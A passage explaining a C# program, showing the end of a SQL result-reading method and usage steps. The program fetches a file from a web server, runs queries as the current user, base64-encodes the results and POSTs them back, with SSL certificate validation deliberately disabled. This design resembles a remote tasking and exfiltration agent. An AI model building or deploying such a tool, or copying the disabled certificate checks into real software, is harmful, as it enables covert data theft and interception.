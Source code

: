 ```csharp
                            while (reader.Read())
                            {
                                for (int i = 0; i < reader.FieldCount; i++)
                                {
                                    result.Append(reader.GetValue(i).ToString() + "\t");
                                }
                                result.AppendLine();
                            }
                        }
                    }
                }

                connection.Close();
            }
        }
        catch (Exception ex)
        {
            result.AppendLine($"SQL Error: {ex.Message}");
        }

        return result.ToString();
    }
}

```

### **How to Use**

1. **Compile the Program:**
   - Make sure all the classes (`HttpRequestHandler.cs`, `BrowserDetection.cs`, and `Program.cs`) are compiled together.

2. **Running the Program:**
   - If you want to connect to a web server and retrieve a file:
     ```bash
     Program.exe -w https://example.com -g path/to/file.txt
     ```

3. **SSL Certificate Handling:**
   - The `HttpRequestHandler` class will ignore SSL certificate validation for HTTPS requests, allowing it to connect to servers with self-signed or invalid certificates.

4. **Behavior:**
   - When `-w` and `-g` are specified, the program:
     - Connects to the web server.
     - Retrieves the file.
     - Processes the file as described (including handling special cases for using the current user).
     - Base64 encodes the result.
     - Sends the result back to the server using a POST request.

### **Conclusion**
